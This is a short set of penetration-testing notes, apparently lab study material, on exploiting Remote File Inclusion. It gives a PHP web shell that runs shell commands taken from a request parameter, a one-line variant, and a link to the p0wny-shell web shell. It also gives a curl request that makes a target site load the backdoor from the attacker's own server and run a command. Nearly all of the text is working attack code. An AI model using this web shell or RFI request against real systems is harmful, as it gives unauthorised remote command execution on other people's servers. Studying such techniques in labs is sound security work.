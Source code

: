 # RFI

Used when we can reference a file on our kali machine.

We begin by hosting the following `simple-backdoor.php` file on a simple python http server

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

We can also use [p0wny-shell](https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php) or a even simpler one in this context:

```php
<?php system($_GET['cmd']); ?>
```

We can then exploit the RFI via the following request (unless using [p0wny-shell](https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php))

```bash
curl 'http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls'
```
